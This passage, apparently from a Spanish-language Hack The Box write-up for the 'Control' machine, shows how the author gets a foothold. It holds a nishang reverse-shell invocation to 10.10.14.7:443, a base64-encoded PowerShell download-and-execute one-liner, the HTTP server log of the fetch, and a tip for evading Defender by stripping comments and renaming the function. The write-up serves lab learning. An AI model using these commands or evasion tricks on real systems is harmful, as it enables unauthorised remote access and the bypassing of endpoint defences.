 <img src="/writeups/assets/img/Control-htb/16.png" alt="">

Con Invoke-PowerShellTcp.ps1 de nishang, me entablo una reverse shell

Le añado en la última línea el comando que quiero ejecutar una vez se interprete

```null
cat Invoke-PowerShellTcp.ps1 | tail -n1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443
```

Creo la sentencia en powershell que voy a enviar en base64 a un fichero

```null
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/Invoke-PowerShellTcp.ps1')" | iconv -t utf-16le | base64 -w 0 | xclip -sel clip
```

<img src="/writeups/assets/img/Control-htb/17.png" alt="">

Y recibo la petición. Pero hay reglas de firewall implementadas o el Defender está bloqueando la conexión

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.167 - - [01/Feb/2023 21:31:52] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

Para bypassearlo, borro todos los comentarios y le cambio el nombre de la función por otro cualquiera

<img src="/writeups/assets/img/Control-htb/18.png" alt="">

Y gano acceso al sistema

Mirando los privilegios este usuario, veo que tiene SeImpersonatePrivileage
